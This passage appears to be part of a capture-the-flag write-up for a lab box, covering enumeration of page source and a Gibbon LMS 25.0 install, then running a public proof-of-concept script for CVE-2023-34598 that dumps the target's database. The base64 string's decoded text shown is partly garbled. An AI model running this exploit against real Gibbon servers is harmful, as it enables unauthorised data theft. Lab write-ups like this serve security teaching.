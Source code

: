 ![](images/Pasted%20image%2020250616142828.png)


If we check the source code we can find this:

![](images/Pasted%20image%2020250616142853.png)



```
V2FudCB0byBsZWFybiBoYWNraW5nIGJ1dCBkb24ndCB3YW50IHRvIGdvIHRvIGphYmwvIFlvdsdscbBSZWFybiB0aGUgYXV4cnhhbG9nb3YycyBvZiB0aGVpciBhcHBsaWNhdGlvbnMuIFRoZXJlIHdpbGwgYmUgbGVnYWwgc2VjdGlvbnMgYXMgaGFja2luZyBpcyBpbGxlZ2FsIGluIG1hbnkgY291bnRyaWVzLg==
```

If we decode the string, nothing interesting can be found:

```
Want to learn hacking but don't want to go to jabl/ YovÇlq°Rearn the auxrxalogov2s of their applications. There will be legal sections as hacking is illegal in many countries.
```

On the source code we can see this too:

![](images/Pasted%20image%2020250616143718.png)

There's a `Gibbon LMS` directory on here, if we check it, we can find this:

![](images/Pasted%20image%2020250616143754.png)

We find a login page but more importantly, we can find this is running `Gibbon 25.0`, if we search for an exploit, we can find this:


![](images/Pasted%20image%2020250616165721.png)

We find `LFI` regarding this version, there's a python script that automates the process, let's use it:

REPO: https://github.com/Zer0F8th/CVE-2023-34598

Let's proceed to exploitation.



# EXPLOITATION
---

Ok, we only did a basic enumeration since we don't have credentials yet, let's use the script and check if it works:

```python
python3 CVE-2023.34598.py scan http://frizzdc.frizz.htb/gibbon-lms
[*] Scanning URL: http://frizzdc.frizz.htb/gibbon-lms
[+] Target appears vulnerable. Saving dump...
[+] Database dump saved to 'Gibbon_dump/gibbon.sql'.
```
